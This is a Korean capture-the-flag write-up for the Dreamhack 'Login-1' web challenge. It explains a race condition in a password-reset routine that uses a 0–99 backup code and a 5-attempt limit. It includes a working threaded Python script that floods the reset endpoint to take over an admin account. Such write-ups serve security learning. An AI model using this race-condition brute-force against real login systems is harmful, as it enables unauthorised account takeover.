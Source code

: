 ```yaml
---
title:  "[Dreamhack] Login-1 풀이"
excerpt: "Dreamhack Login-1 풀이"

categories:
  - Dreamhack
tags:
  - [Dreamhack, wargame, WebHacking]

toc: true
toc_sticky: true
 
date: 2022-04-06
last_modified_at: 2022-04-06
---
```

## 문제 정보
<div class="notice--primary" markdown="1">
python으로 작성된 로그인 기능을 가진 서비스입니다.

“admin” 권한을 가진 사용자로 로그인하여 플래그를 획득하세요.
</div>


## 문제 힌트
<div class="notice--primary" markdown="1">
BackupCode<br>
Race Condition Attack
</div>

## 문제 풀이
<div class="notice--primary" markdown="1">

#### `메인 페이지`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/main.png)

#### `로그인`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/login.png)

#### `회원가입`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/register.png)

#### `비밀번호 찾기`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/forget_password.png)
특이하게 비밀번호를 찾을 때 BackupCode를 사용한다.

#### `회원가입 완료`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/register_backupcode.png)
회원가입에 성공하면 BackupCode가 생성된다.

#### `BackupCode 함수`
{: .text-right }
```python
def makeBackupcode():
    return random.randrange(100)
```
문제 파일을 다운로드 받아 해당 코드를 살펴보면
makeBackupcode 함수가 있는데, randrange함수를 통해 100까지의 값을 랜덤으로 리턴해준다.

#### `로그인 후`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/test_login.png)
로그인을 시도하면 계정 정보가 출력된다.<br>
현재 test계정으로 로그인을 한 결과 Level이 guest이다.

#### `계정 정보`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/user_info.png)
로그인 후 상단에 출력되는 계정 정보를 클릭하면 `/user/17` 경로의 상세보기 페이지로 넘어간다.<br>
상세보기에서는 UserID, UserName, UserLevel이 출력된다.<br>
UserLevel이 0이라면 guest, UserLevel이 1이라면 admin으로 추측된다.

#### `Admin 계정 정보`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/Apple_info.png)
`/user/1` 경로에 접속해보니 Admin 계정으로 추측되는 Apple 계정이 출력되었다.<br>
해당 방법으로 1~16의 값을 입력해보니 Apple 이외에도 7개의 Admin 계정을 더 확인할 수 있다.<br>

#### `관리자 계정 탈취`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/Apple_reset_password.png)
Apple Admin 계정을 탈취하기 위해 BackupCode에 100까지의 아무 값을 입력했다.

#### `관리자 계정 탈취2`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/reset_password_fail.png)<br>
계정의 비밀번호 찾기 기회는 총 5번으로 확인되었다.
막무가내로 아무 값을 넣었다간 계정이 잠긴다.



#### `비밀번호 찾기 코드 확인`
{: .text-right }
```python
if user:
# security for brute force Attack.
time.sleep(1)
if user['resetCount'] == MAXRESETCOUNT:
    return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
        
    if user['backupCode'] == backupCode:
        newbackupCode = makeBackupcode()
        updateSQL = "UPDATE user set pw = ?, backupCode = ?, resetCount = 0 where idx = ?"
        cur.execute(updateSQL, (hashlib.sha256(newpassword.encode()).hexdigest(), newbackupCode, str(user['idx'])))
        msg = f"<b>Password Change Success.</b><br/>New BackupCode : {newbackupCode}"

    else:
        updateSQL = "UPDATE user set resetCount = resetCount+1 where idx = ?"
        cur.execute(updateSQL, (str(user['idx'])))
        msg = f"Wrong BackupCode !<br/><b>Left Count : </b> {(MAXRESETCOUNT-1)-user['resetCount']}"
            
    conn.commit()
    return render_template("index.html", msg=msg)

return "<script>alert('User Not Found.');history.back(-1);</script>";

```
1. `if user:`<br>
user 입력값이 유효하다면 `time.sleep(1)`를 통해 1초를 지연시킨다.

2. `user['resetCount'] == MAXRESETCOUNT:`<br>
MAXRESETCOUNT값은 위의 과정에서 5인것을 확인했다.<br>
resetCount값이 5라면 비밀번호 찾기에 제한이 생긴다.

3. `if user['backupCode'] == backupCode:`<br>
BackupCode가 일치하면 makeBackupcode 함수를 호출해서 1~100까지 랜덤한 숫자의 백업코드를 만들고 패스워드를 변경한다.

4. `else:`<br>
BackupCode가 일치하지 않으면 resetcount를 1 증가시킨다.

코드를 분석한 결과 1초 내에 요청이 여러번 들어오면 레이스 컨디션 취약점이 발생하게 된다.<br>
Burp Suite를 사용해서 문제를 취약점을 발생시키려고 했으나, <br>
Burp Suite Community Edition 버전은 Intruder 기능을 사용할때 속도 제한이 걸려있다..<br>
Professional 버전은 속도 제한이 없지만 지금은 Professional 버전이 없기떄문에<br>
구글링을 통해 Python Script Attack을 시도했다.

#### `Attack`
{: .text-right }
```python
import threading, requests

url = "http://host1.dreamhack.games:19488/forgot_password"

def forgot(backupCode):
    data = {"userid": "Apple", "newpassword": "1234", "backupCode": backupCode}
    requests.post(url, data=data)
    print(f"Backupcode: {backupCode}")

if __name__ == "__main__":
    threads = []
    print("Attack Start")

    for i in range(1, 100 + 1):
        t = threading.Thread(target=forgot, args=[i])
        t.start()
        threads.append(t)

    for thread in threads:
        thread.join()

    print("Attack Finish")
    print("New Password: 1234")
```
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/attack_result.png)<br>
공격이 끝났기 때문에 Apple 계정의 패스워드는 1234로 변경되었을것이다.

#### `끝`
{: .text-right }
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/Apple_login_success.png)<br>
![ex_screenshot](/assets/images/2022-04-06-Dreamhack-login-1/flag.png)<br>
Apple/1234 계정의 접속에 성공해서 Flag를 얻었다.


</div>



 
